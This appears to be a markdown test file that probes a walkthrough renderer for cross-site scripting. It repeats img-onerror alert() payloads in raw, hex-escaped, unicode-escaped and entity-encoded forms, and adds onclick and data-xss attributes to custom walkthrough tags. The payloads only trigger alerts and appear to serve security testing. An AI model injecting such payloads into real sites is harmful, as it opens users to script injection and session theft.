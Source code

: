 #Header1 <img src=x1 onerror=alert(1)>
##Header2 \x3cimg src=x2 onerror=alert(2)\x3e
##Header3 \u003cimg src=x3 onerror=alert(3)\u003e
##Header3 &lt;img src=x3 onerror=alert(3)&gt;

<img src=x1 onerror=alert(1)>
\x3cimg src=x2 onerror=alert(2)\x3e
\u003cimg src=x3 onerror=alert(3)\u003e
&lt;img src=x3 onerror=alert(3)&gt;
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>

<walkthrough-ICON_NAME data-xss></walkthrough-ICON_NAME>
<walkthrough-cloud-shell-icon data-xss>aasd</walkthrough-cloud-shell-icon>
<walkthrough-web-preview-icon data-xss>asd</walkthrough-web-preview-icon>
<walkthrough-cloud-shell-editor-icon data-xss></walkthrough-cloud-shell-editor-icon>
<walkthrough-nav-menu-icon data-xss></walkthrough-nav-menu-icon>
<walkthrough-notification-menu-icon data-xss></walkthrough-notification-menu-icon>
<walkthrough-pin-section-icon data-xss></walkthrough-pin-section-icon>

```<img src=x1 onerror=alert(1)>
\x3cimg src=x2 onerror=alert(2)\x3e
\u003cimg src=x3 onerror=alert(3)\u003e
&lt;img src=x3 onerror=alert(3)&gt;
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>
```
